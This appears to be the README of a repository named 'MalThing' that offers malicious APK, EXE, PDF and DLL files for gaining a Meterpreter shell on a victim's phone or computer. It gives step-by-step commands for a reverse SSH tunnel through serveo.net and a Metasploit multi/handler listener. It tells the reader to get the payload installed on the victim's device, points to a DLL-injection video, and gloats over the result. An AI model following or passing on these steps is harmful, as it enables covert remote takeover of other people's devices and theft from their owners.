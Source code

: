 MalThing

A bunch of malicius thing to get a meterpreter shell

how to control this MalThing to create a METERPRETER SHELL!!!

MAKE SURE YOU HAVE AN INTERNET ACCESS!!!

1.install open ssh with "apt-get install openssh"

2.type "ssh -R 3249:localhost:3249 serveo.net"

3.open msfconsole run listener with multi/handler setup and with your localhost and port=3249

3.install and run the apk on your victime phone.....make sure your victim phone had a internet access(FOR THE MalAPK FILE)

3.Run it on the victim computer.....make sure your victim computer had a internet access(FOR THE MalEXE,MalMS,MalPDF)

4.and get a METERPRETER SHELL!!!!!HAHAHAHAHA

PS:For the dll....search for how to inject dll on process or watch this https://www.youtube.com/watch?v=yKoD5Oy8CKQ&t=338s
